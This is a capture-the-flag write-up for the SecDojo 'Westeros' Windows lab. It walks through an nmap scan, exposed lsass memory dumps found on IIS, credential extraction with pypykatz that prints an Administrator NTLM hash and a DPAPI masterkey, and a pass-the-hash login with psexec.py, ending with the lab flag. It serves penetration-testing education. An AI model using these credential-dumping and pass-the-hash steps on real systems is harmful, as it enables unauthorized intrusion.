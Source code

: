 ```yaml
---
title: "SecDojo - Westeros Lab"
author: [Ayoub Amzouar]
date: "2022-12-29"
keywords: [Windows, Security, CTF, Hacking]
titepage: true
titlepage-text-color: "FFFFFF"
titlepage-color: "0c0d0e"
titlepage-rule-color: "8ac53e"
...
```


# Enumeration

## NMAP

We begin our reconnaissance by running an Nmap scan checking services and their versions also checking default scripts and testing for vulnerabilities.

```console
$ nmap -sV -sC 172.16.4.202
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-28 14:29 UTC
Nmap scan report for 172.16.4.202
Host is up (0.0010s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: 172.16.4.202 - /
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2016 Datacenter 14393 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-12-28T14:29:42+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=Dumped
| Not valid before: 2022-12-27T14:20:10
|_Not valid after:  2023-06-28T14:20:10
| rdp-ntlm-info: 
|   Target_Name: DUMPED
|   NetBIOS_Domain_Name: DUMPED
|   NetBIOS_Computer_Name: DUMPED
|   DNS_Domain_Name: Dumped
|   DNS_Computer_Name: Dumped
|   Product_Version: 10.0.14393
|_  System_Time: 2022-12-28T14:29:37+00:00
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: DUMPED, NetBIOS user: <unknown>, NetBIOS MAC: 06:ec:26:2c:5f:98 (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-12-28T14:29:37
|_  start_date: 2022-12-28T14:20:11
| smb-os-discovery: 
|   OS: Windows Server 2016 Datacenter 14393 (Windows Server 2016 Datacenter 6.3)
|   Computer name: Dumped
|   NetBIOS computer name: DUMPED\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-12-28T14:29:37+00:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.12 seconds
```
From the above output we can see that ports, **80**, **135**, **139**, **445** and **3389** are the open ports also we found that the running system is **Windows Server 2016 Datacenter 6.3**.

After checking what's on port 80 this is what we found.
![](./Figure%2001.png)
**Figure 1:** *172.16.4.202:80/*

![](./Figure%2002.png)
**Figure 2:** *172.16.4.202:80/dumps/process/*

This is very interesting the **.DMP** file or dump file format is used by Windows to dump the memory of a crashed program into a file for later diagnostic analysis therefore if we can extract informations from those files it can be helpful.

![](./Figure%2003.png)
**Figure 3:** *determining file type*

# Exploitation

After beating my head up trying to find a way or a tool to extract the informations from **.DMP** files, I finally found a tool named **pypykatz.py** which is Mimikatz implementation in python, and it only works with **lsass.DMP** which is decent because the **lsass.exe** process is the one responsible for verifing users logging on to a Windows computer or server, handles password changes, and creates access tokens. it means we can find passwords in its dump file.

```console
pypykatz lsa minidump ./lsass.DMP 
INFO:root:Parsing file ./lsass.DMP
FILE: ======== ./lsass.DMP =======
== LogonSession ==
authentication_id 2038524 (1f1afc)
session_id 0
username Administrator
domainname DUMPED
logon_server DUMPED
logon_time 2020-10-29T17:27:39.507840+00:00
sid S-1-5-21-3442779028-2509691204-4132320481-500
luid 2038524
....
== LogonSession ==
authentication_id 161412 (27684)
session_id 2
username Administrator
domainname DUMPED
logon_server DUMPED
logon_time 2020-10-29T15:19:57.115459+00:00
sid S-1-5-21-3442779028-2509691204-4132320481-500
luid 161412
        == MSV ==
                Username: Administrator
                Domain: DUMPED
                LM: NA
                NT: 78f9261c7b0f08bd9a3b3b13340e4c2a
                SHA1: b1553efa581712a8efead9829535b1a723f7cc40
                DPAPI: NA
        == WDIGEST [27684]==
                username Administrator
                domainname DUMPED
                password None
        == Kerberos ==
                Username: Administrator
                Domain: DUMPED
        == WDIGEST [27684]==
                username Administrator
                domainname DUMPED
                password None
        == DPAPI [27684]==
                luid 161412
                key_guid 6a105211-df65-4190-9119-f3fc00c33238
                masterkey e91a544b4dc136e4b0518571830bcd35c6540437e79e443f253f6df973b05a99129cd95441c4c4fce3101834a1bbc18fe09f347d62b6b81af8af58e3959741cd
                sha1_masterkey 1e4f90580f6afabf0c4c867a3c39891490736d1c
....
```

Even though we didn't find a text-format passwords, there was a part of NTLM hash **`NT: 78f9261c7b0f08bd9a3b3b13340e4c2a`** which we could use in our Pass-The-Hash attack using **psexec.py** tool.


![](./Figure%2004.png)
**Figure 4:** *Inside the windows machine*

## Flag
After navigating to the Administator's desktop I found our flag: **`Dumped_Sesco-xaaxzdlfy4zjwjs5ln0nfvmtwqqhlwy4`**
